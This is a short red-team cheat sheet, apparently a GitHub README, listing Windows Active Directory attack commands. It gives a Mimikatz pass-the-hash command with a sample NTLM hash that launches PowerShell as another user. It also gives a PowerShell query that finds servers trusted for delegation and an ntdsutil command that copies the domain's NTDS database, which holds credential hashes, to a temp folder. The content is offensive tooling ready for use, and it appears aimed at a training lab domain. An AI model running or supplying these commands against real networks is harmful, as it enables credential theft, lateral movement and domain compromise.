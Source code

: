 # Red Team

## Mimikatz

### Pass the hash
```
sekurlsa::pth /user:pwnd.user /domain:hackersacademy.local /ntlm:fc525c9683e8fe067095ba2ddc971889 /run:powershell.exe
```

### Discover Servers Configured with Delegation
```
Get-AdComputer -Filter {(TrustedForDelegation -eq $True) -AND (PrimaryGroupID -eq 515) } -Properties TrustedForDelegation, TrustedToAuthForDelegation,servicePrincipalName,Description
```

### NTDSUtil
```
ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
```
